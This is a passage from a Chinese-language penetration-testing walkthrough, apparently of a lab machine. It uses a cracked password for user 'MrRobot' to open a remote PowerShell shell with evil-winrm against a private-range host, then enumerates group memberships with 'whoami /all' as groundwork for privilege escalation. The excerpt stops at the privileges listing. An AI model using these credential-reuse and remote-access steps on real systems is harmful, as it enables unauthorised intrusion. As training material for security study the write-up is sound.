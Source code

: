 密码被成功破解，用户 `MrRobot` 的明文密码为 `mrroboto12`。

## **2.5 远程登录获取立足点**

利用刚刚获取的凭据，通过 `evil-winrm` 登录目标主机的 WinRM 服务（5985端口），这将为我们提供一个交互式的 PowerShell Shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ evil-winrm -i 192.168.205.132 -u 'MrRobot' -p 'mrroboto12'    
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\MrRobot\Documents> whoami /all
```

成功登录，我们已经在目标系统上获得了一个初始的立足点（Foothold）。

---

# **三、权限提升**

## **3.1 权限分析**

为了规划下一步的提权路线，首先在远程Shell中执行 `whoami /all` 命令，查看当前用户 `MrRobot` 的详细权限信息。

```powershell
*Evil-WinRM* PS C:\Users\MrRobot\Documents> whoami /all

用户信息
----------------

用户名         SID
============== ==============================================
novice\mrrobot S-1-5-21-3649830887-1815587496-1699028491-1104


组信息
-----------------

组名                                        类型   SID          属性
=========================================== ====== ============ ==============================
Everyone                                    已知组 S-1-1-0      必需的组, 启用于默认, 启用的组
BUILTIN\Remote Management Users             别名   S-1-5-32-580 必需的组, 启用于默认, 启用的组
BUILTIN\Users                               别名   S-1-5-32-545 必需的组, 启用于默认, 启用的组
BUILTIN\Pre-Windows 2000 Compatible Access  别名   S-1-5-32-554 必需的组, 启用于默认, 启用的组
NT AUTHORITY\NETWORK                        已知组 S-1-5-2      必需的组, 启用于默认, 启用的组
NT AUTHORITY\Authenticated Users            已知组 S-1-5-11     必需的组, 启用于默认, 启用的组
NT AUTHORITY\This Organization              已知组 S-1-5-15     必需的组, 启用于默认, 启用的组
NT AUTHORITY\NTLM Authentication            已知组 S-1-5-64-10  必需的组, 启用于默认, 启用的组
Mandatory Label\Medium Plus Mandatory Level 标签   S-1-16-8448


特权信息
----------------------

特权名                        描述             状态
============================= ================ ======
```